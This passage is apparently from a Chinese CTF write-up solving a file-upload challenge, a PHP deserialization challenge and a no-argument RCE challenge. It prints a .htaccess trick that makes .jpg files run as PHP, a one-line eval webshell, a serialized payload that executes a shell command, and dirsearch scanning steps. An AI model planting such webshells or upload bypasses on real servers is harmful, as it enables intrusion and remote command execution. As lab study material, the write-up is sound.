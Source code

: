 ![](https://s2.loli.net/2024/03/08/4dUtQigIxuynwb5.png)

**后缀不能是php，那就得传.htaccess试试了**

![](https://s2.loli.net/2024/03/08/1WyRzwrj5AK6Xv9.png)

>更多写法：
<FilesMatch "xxx.jpg"> #指定文件转 php
SetHandler application/x-httpd-php
</FilesMatch>

**功能：把当前目录和子目录的.jpg文件当作php文件处理，再次上传木马**

![](https://s2.loli.net/2024/03/08/uDOlTySgmHRzwcZ.png)

**木马格式修改为：<script language='php'>@eval($_POST['aaa']);</script>
等同于<?php eval($_POST['aaa']); ?>
这次成功了，执行系统命令即可**

![](https://s2.loli.net/2024/03/08/8f7Rtga9pYFxXOI.png)

###    [WEEK2]  Unserialize？

 签到反序列化



构造 payload：

![](https://s2.loli.net/2024/03/08/OD6WZBERn78ozxH.png)

**POST：unser=O:4:"evil":1:{s:3:"cmd";s:33:"nl /th1s_1s_fffflllll4444aaaggggg";}**

![](https://s2.loli.net/2024/03/08/GCHsR7jvXLoFWmp.png)

### [WEEK2]   R!!C!!E!!

无参 RCE + 过滤



![](https://s2.loli.net/2024/03/08/Kz63HSouAeiXw74.png)

进去拿到提示，存在信息泄露，F12 简单看没有东西

dirsearch 扫一下

![](https://s2.loli.net/2024/03/08/2jO6zebvAx7IMNW.png)

全部是 429（Too Many Requests）

加个时间限制，-s 1   （间隔一秒）[dirsearch 用法大全](https://blog.csdn.net/qq_43936524/article/details/115271837)

![](https://s2.loli.net/2024/03/08/brAwZ3FxDJmMlti.png)

.git 泄露
